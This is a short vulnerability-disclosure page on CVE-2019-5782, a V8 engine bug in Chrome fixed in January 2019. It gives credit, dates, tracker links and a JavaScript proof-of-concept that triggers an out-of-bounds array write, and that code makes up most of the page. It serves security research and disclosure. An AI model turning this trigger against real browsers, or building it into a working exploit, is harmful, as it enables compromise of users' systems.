 # CVE-2019-5782

- Report: Nov 2018
- Fix: Jan 2019
- Credit: Zhao Qixun(@S0rryMybad) of Qihoo 360 Vulcan Team

## PoC

```javascript
function opt(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a2 = new Array(2); a2[0] = 1.1; a2[1] = 1.1;
  a1[(x >> 16) * 0xf00000] = 1.39064994160909e-309; // 0xffff00000000
}

var a1, a2;

let small = [1.1];
let large = [1.1,1.1];
large.length = 65536;
large.fill(1.1);

for (let j = 0; j< 100000; j++) {
    opt.apply(null, small);
}

opt.apply(null, large);
```

## Reference

- [Issue](https://crbug.com/906043)
- [Write up](https://github.com/vngkv123/aSiagaming/blob/master/Chrome-v8-906043/Chrome%20V8%20-%20-CVE-2019-5782%20Tianfu%20Cup%20Qihoo%20360%20S0rrymybad-%20-ENG-.pdf)
